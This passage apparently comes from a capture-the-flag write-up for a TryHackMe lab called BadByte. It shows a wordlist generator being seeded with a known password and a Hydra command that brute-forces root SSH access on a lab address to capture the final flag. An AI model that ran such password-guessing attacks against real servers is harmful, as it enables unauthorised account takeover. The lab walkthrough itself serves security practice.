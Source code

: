 ```bash
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: G00dP@$sw0rd20  
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to good.txt, counting 5188 words.
[+] Now load your pistolero with good.txt and shoot! Good luck!

```

## Hydra

Let's try if this password is reused (slightly modified) for root access on [[SSH]] :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/BadByte]
└─$ hydra -l root -P good.txt 10.10.152.27 ssh -v   

'G00dP@$sw0rd2021'
```

And we get the password, now we return to `cth` shell and `sudo su root'
and we cat the last flag .

